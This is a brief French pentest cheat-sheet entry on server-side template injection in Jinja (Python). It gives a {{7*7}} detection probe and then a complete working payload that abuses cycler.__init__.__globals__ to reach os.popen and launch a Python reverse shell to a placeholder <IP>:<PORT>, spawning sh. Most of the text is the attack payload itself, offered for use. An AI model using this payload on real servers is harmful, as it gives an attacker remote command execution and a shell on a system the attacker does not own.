 # SSTI

## Jinja (python)

* Tester si la vulnérabilité est présente :

```
{{7*7}}
```

* Exploiter la vulnérabilité (_reverse-shell_):

```python
{{ cycler.__init__.__globals__.os.popen('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")\'').read()}}
```

**Tips :** _essayer python et python3_
